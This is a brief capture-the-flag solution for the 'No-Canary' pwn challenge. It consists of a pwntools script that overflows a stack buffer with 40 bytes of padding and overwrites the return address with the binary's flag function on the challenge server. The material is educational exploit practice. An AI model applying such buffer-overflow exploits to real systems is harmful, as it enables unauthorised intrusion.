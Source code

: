 # No-Canary -- pwn -- 50 pts/536 solves

```
from pwn import *

p = remote("shell.actf.co", 20700)
e = ELF("./nocanary")

xpl = ""
xpl += "A"*40 #overflow
xpl += p64(e.sym["flag"])

p.sendlineafter("your name?", xpl)
print p.recvall(1)
```
